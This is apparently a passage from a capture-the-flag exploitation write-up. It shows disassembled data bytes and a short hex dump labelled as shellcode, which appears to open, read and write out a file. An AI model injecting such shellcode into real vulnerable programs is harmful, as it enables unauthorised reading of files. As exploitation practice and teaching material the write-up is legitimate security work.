 ```
  40015c:	6f                   	outsl  %ds:(%rsi),(%dx)
  40015d:	6f                   	outsl  %ds:(%rsi),(%dx)
  40015e:	6f                   	outsl  %ds:(%rsi),(%dx)
  40015f:	30 30                	xor    %dh,(%rax)
  400161:	30 30                	xor    %dh,(%rax)
  400163:	30 30                	xor    %dh,(%rax)
  400165:	30 30                	xor    %dh,(%rax)
  400167:	30 30                	xor    %dh,(%rax)
  400169:	30 30                	xor    %dh,(%rax)
  40016b:	30 30                	xor    %dh,(%rax)
  40016d:	30 30                	xor    %dh,(%rax)
  40016f:	30 30                	xor    %dh,(%rax)
  400171:	30 30                	xor    %dh,(%rax)
  400173:	30 30                	xor    %dh,(%rax)
  400175:	30 30                	xor    %dh,(%rax)
  400177:	30 6f 6f             	xor    %ch,0x6f(%rdi)
  40017a:	6f                   	outsl  %ds:(%rsi),(%dx)
  40017b:	6f                   	outsl  %ds:(%rsi),(%dx)
  40017c:	6f                   	outsl  %ds:(%rsi),(%dx)
  40017d:	6f                   	outsl  %ds:(%rsi),(%dx)
  40017e:	6f                   	outsl  %ds:(%rsi),(%dx)
  40017f:	6f                   	outsl  %ds:(%rsi),(%dx)
  400180:	6f                   	outsl  %ds:(%rsi),(%dx)
  400181:	6f                   	outsl  %ds:(%rsi),(%dx)
  400182:	6f                   	outsl  %ds:(%rsi),(%dx)
  400183:	6f                   	outsl  %ds:(%rsi),(%dx)
  400184:	6f                   	outsl  %ds:(%rsi),(%dx)
  400185:	6f                   	outsl  %ds:(%rsi),(%dx)
  400186:	6f                   	outsl  %ds:(%rsi),(%dx)
  400187:	6f                   	outsl  %ds:(%rsi),(%dx)
  400188:	6f                   	outsl  %ds:(%rsi),(%dx)
  400189:	6f                   	outsl  %ds:(%rsi),(%dx)
  40018a:	6f                   	outsl  %ds:(%rsi),(%dx)
  40018b:	6f                   	outsl  %ds:(%rsi),(%dx)
  40018c:	6f                   	outsl  %ds:(%rsi),(%dx)
  40018d:	6f                   	outsl  %ds:(%rsi),(%dx)
  40018e:	6f                   	outsl  %ds:(%rsi),(%dx)
  40018f:	30 30                	xor    %dh,(%rax)
  400191:	30 30                	xor    %dh,(%rax)
  400193:	30 30                	xor    %dh,(%rax)
  400195:	30 30                	xor    %dh,(%rax)
  400197:	30 30                	xor    %dh,(%rax)
  400199:	30 30                	xor    %dh,(%rax)
  40019b:	6f                   	outsl  %ds:(%rsi),(%dx)
  40019c:	30 6f 30             	xor    %ch,0x30(%rdi)
  40019f:	6f                   	outsl  %ds:(%rsi),(%dx)
  4001a0:	30 6f 30             	xor    %ch,0x30(%rdi)
  4001a3:	6f                   	outsl  %ds:(%rsi),(%dx)
  4001a4:	30 6f 30             	xor    %ch,0x30(%rdi)
  4001a7:	6f                   	outsl  %ds:(%rsi),(%dx)
  4001a8:	6e                   	outsb  %ds:(%rsi),(%dx)
  4001a9:	67                   	addr32

00000000004001aa <buf>:
	...

```
# the actual shellcode : 
```
0000080  eb 3a 5d 48 ff c0 48 ff  c0 48 89 ef 48 31 f6 48  |.:]H..H..H..H1.H|
00000090  31 d2 0f 05 48 89 c7 48  31 c0 48 89 ee 48 31 c9  |1...H..H1.H..H1.|
000000a0  b1 e9 48 ff c5 e2 fb b2  ff 0f 05 48 31 ff 48 ff  |..H........H1.H.|
```